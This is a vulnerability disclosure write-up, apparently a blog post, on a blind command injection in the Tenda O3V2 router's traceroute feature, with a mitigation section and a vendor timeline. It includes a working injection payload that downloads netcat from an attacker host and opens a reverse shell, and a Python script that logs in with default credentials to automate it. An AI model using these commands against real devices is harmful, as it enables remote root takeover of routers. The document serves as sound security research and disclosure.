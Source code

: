 ```yaml
---
title: Blind Command Injection in Tenda O3V2
date: 2024-05-01 13:00:00 +07:00
tags: [research, hardware]
---
```


Some time ago I had time to research router, the router I used for this research was a router that I hadn't used for a long time, namely Tenda O3V2. I used to use this router to connect to wifi over long distances (we call it "nembak wifi"). This Tenda O3 router actually has several versions, there are first version, second version, and third version, in this research I use the second version. The appearance of the Tenda O3V2 as shown below

![O3V2](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/O3.png)

In this research I found a blind command injection vulnerability in the traceroute feature. Blind command injection is a vulnerability that allows an attacker to execute operating system commands on the server that is running an application and application does not return the output from the command. So, Tenda O3V2 have diagnostic tool which includes traceroute but the ip address or domain input is not validated properly and allows the user to perform blind command injection. To perform blind command injection, the attacker needs admin access on the dashboard, but TendaO3V2 have default credential which is admin:admin, so if the user does not change the password then we can perform out blind command injection, and if the user has change password we still can bruteforce it until we got access in dashboard.

We need to retrieve the httpd binary from the router for disassembly and decompilation. There are two methods that can be used: first, by extracting the firmware (from the official website), and second, by directly accessing it from the live or active router. When using the first method to extract the firmware, no filesystem is found in the firmware, i dont know why, possibly due to encryption, obfuscation, or packing in the firmware (my skill issue :( ). Then, when attempting the second method via UART, I failed to solder onto its three pins (RX, TX, and GND) resulting in burnt pin and the pin slightly peeled off (once again, my skill issue). Therefore, I enabled telnet through the dashboard (by default, telnet is disabled, and telnet credentials can be found on the internet) to gain shell access with root privileges. After obtaining shell access with root privileges, we can retrieve the httpd binary for analysis to identify vulnerabilities within it.

### Exploitation

Open router’s httpd binary with Ghidra. In the fromTraceroutGet function, there is a call to the FUN_004758f4 function, which contains a function for executing the traceroute command. Within the FUN_004758f4 function, there is the doSystemCmd function (used to perform traceroute), and this function requires user input. It is evident in the uVar5 variable in the fromTraceroutGet function that there is no sanitization; this variable will later be passed to the doSystemCmd function, potentially leading to command injection.

![fromtraceroutget Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fromtraceroutget.png)

![fun_004758f4 Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fun_004758f4.png)

Listen on port 1337 with nc (netcat), then activate the web server to make the router download the netcat binary (mips). Netcat is used for reverse shell.

![Python HTTP Server](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/pythonhttpserver.png)

Visit 192.168.2.1 then go to diagnose, select traceroute, and enter the IP.

![Diagnose](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/diagnose.png)

Intercept request when submit using burpsuite. In the getTraceroute endpoint, our IP is included in the destination parameter.

![Intercept Request](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/interceptrequest.png)

Change the value of the dest parameter to the command we want, for example performing a reverse shell<br>
```bash
;wget 192.168.2.158:8000/netcat -O /tmp/netcat&&chmod +x /tmp/netcat&&./tmp/netcat 192.168.2.158 1337 -e /bin/sh
```
Explanation of this command, the router will download the netcat binary stored in the tmp directory, then the binary will be given execute access and then execute the binary to reverse shell to port 1337. Then forward the request.

![Reverse Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/revshell.png)

Check the web server, and it's visible that the router is downloading the netcat file.

![Download nc MIPS](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/downloadncmips.png)

Check on the listener, the reverse shell is successful. Now, we got full access to the router with root privilege.

![Got Root Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/gotrootshell.png)

We can create a script to automate the process.


```python
import requests

username = "admin"
password = "YWRtaW4="
urllogin = "http://192.168.2.1/login/Auth"
logindata = {
    'username': username,
    'password': password,
    'timeZone': '12',
    'time': '2024;3;29;12;35;22'
}
command = "%3bwget+192.168.2.158:8000/netcat+-O+/tmp/netcat%26%26chmod+%2bx+/tmp/netcat%26%26./tmp/netcat+192.168.2.158+1337+-e+/bin/sh"

with requests.Session() as session:
        print("[Attempt Login]")
        session.post(urllogin, data=logindata)
        req = session.get(f"http://192.168.2.1/goform/getTraceroute?dest=1.1.1.1{command}&hop=1&_=1713166068405")
        print("[Got shell, Check your listener]")
```

### Mitigation

When this article was published, Tenda had already released new firmware for this device with firmware version 1.0.0.13(10751_5755). In this firmware version, the vulnerability has been fixed by implementing sanitization. Before entering the doSystemCmd function, user input will go through the is_valid_ip_or_domain function. If the input consists of numbers, it will return 1, then proceed to the doSystemCmd function, and the traceroute command will be executed.

![Sanitization](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/sanitization.png)

![is_valid_ip_or_domain Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/is_valid_ip_or_domain.png)


They still haven't released the new firmware to the public so you can download the latest firmware here.


### Timeline
25 March 2024: Vulnerability discovered and the initial contact inquired about Security Vulnerability Reporting to the vendor via email.<br>
28 March 2024: Vendor replied to directly contact to their email.<br>
29 March 2024: Sent them the details of the vulnerability discovered.<br>
30 March 2024: Vendor triage the vulnerability.<br>
7 April 2024: Vendor release new firmware version 1.0.0.13(10751_5755).<br>
8 April 2024: Retesting on the new firmware version and confirming the vulnerability has been fixed.